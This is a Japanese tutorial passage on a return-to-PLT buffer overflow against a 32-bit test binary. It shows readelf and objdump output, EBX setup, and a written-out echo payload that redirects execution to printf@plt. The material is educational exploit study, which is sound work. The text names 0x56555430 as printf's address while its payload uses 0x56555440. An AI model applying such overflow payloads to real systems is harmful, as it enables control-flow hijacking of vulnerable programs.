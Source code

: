 bufferのアドレスは実行した時に分かっていますが、readelfを使って知ることも出来ます。

```
# $ readelf -s a.out| grep buffer
    58: 00002020    15 OBJECT  GLOBAL DEFAULT   25 buffer
```

なので、bufferのアドレスは0x56557020となります。

次にprintfのアドレスを調べましょう。

printfは共有ライブラリの関数なので実行ファイルには含まれず動的リンクされます。動的リンクされた関数を呼び出すためにPLTと呼ばれるコード片が実行ファイルには含まれます。

```
# $ objdump -d -M intel -j .plt --no a.out

a.out:     ファイル形式 elf32-i386


セクション .plt の逆アセンブル:

00000430 <printf@plt-0x10>:
 430:   push   DWORD PTR [ebx+0x4]
 436:   jmp    DWORD PTR [ebx+0x8]
 43c:   add    BYTE PTR [eax],al
        ...

00000440 <printf@plt>:
 440:   jmp    DWORD PTR [ebx+0xc]
 446:   push   0x0
 44b:   jmp    430 <_init+0x30>

00000450 <fgets@plt>:
 450:   jmp    DWORD PTR [ebx+0x10]
 456:   push   0x8
 45b:   jmp    430 <_init+0x30>

00000460 <__libc_start_main@plt>:
 460:   jmp    DWORD PTR [ebx+0x14]
 466:   push   0x10
 46b:   jmp    430 <_init+0x30>
```

printfのアドレスは0x56555430になります。

ここでprintf@pltをみるとjump先のアドレスを$EBXレジスタから計算しています。（`DWORD PTR [ebx+0x8]`の部分）

なので、$EBXレジスタも正しい値にしないといけません。
gdbでprintfを呼び出した時の$EBXの値を見ると、0x56557000でした。
また上書きした時のoffsetを14でした。なので入力は下記のようになります。

```
# $ echo -en 'AAAAAAAAAAAAAA\x00\x70\x55\x56SAAA\x40\x54\x55\x56BBBB\x20\x70\x55\x56' | ./a.out
```

これでうまくいくprintfが実行されるはずですが、実際にやってみると表示されません。
どうやらどっかでバッファしているらしく、printfのret時にはセグフォが起きると表示されないようです。
なのでprintfのリターンアドレスをmain関数の先頭にして起きます。
